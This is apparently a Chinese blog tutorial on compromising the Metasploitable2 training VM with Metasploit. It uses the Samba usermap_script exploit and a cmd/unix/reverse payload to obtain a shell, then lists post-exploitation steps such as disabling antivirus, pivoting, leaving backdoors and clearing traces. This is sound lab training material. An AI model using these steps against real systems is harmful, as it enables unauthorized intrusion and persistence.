 ```yaml
---
date: 2021-03-17
title: 渗透Metasploitable2
#subtitle: 
categories: [渗透]
tags: [渗透,漏洞]
---
```


> Metasploitable2是一款很好的渗透测试靶机

### 实验环境

攻击机:kali    IP:192.168.211.140

目标主机:Metasploitable2   IP:192.168.211.132

### 信息收集

1.使用命令msfconsole进入msf控制台

<img src="https://i.loli.net/2021/03/17/xhgMnCZvJ3AlQyw.png" alt="image-20210317192744736" style="zoom:67%;" />

2.使用Nmap扫描,查看目标系统开放端口和服务.

<img src="https://i.loli.net/2021/03/17/rKnzR1EZijmV7aH.png" alt="image-20210317193125963" style="zoom:67%;" />

3.根据扫描结果选择合适的exploit和payload

此次使用Samba3.0存在的漏洞进行攻击

**提示:**在rank栏选择great/excellent的模块,会有很好效果,成功率更高.

<img src="https://i.loli.net/2021/03/17/wyxbWKE4mLqVclX.png" alt="image-20210317193350796" style="zoom:67%;" />

4.使用攻击模块

选择exploit/multi/samba/usermap_script

提示:使用info+模块 查看说明

<img src="https://i.loli.net/2021/03/17/oZJirFMjk5HC3h6.png" alt="image-20210317194342573" style="zoom:67%;" />

show payloads,查看可用攻击载荷.

5.设置攻击载荷

set PAYLOAD cmd/unix/reverse

设置目标机IP及端口

设置攻击机IP

**注意**:此处的端口号是漏洞服务对应的端口号,在Nmap那一步可以看到.

show options可以查看payload的配置,Required为不可缺参数

<img src="https://i.loli.net/2021/03/17/7uTQKxsf6aHDdLp.png" alt="image-20210317195047700" style="zoom:67%;" />

6.使用expolit命令进行攻击

<img src="https://i.loli.net/2021/03/17/T1SDBs5F8KPjOWi.png" alt="image-20210317195453218" style="zoom:67%;" />

已成功获取目标主机shell !

可以使用命令 uname -a 进行验证.

### 后续

+ 进一步获取目标系统信息
+ 关闭目标系统杀毒软件
+ 利用已攻陷的主机做为跳板/肉鸡
+ 后渗透（权限提升、横向提权、纵向提权）
+ 留下后门
+ 痕迹清除

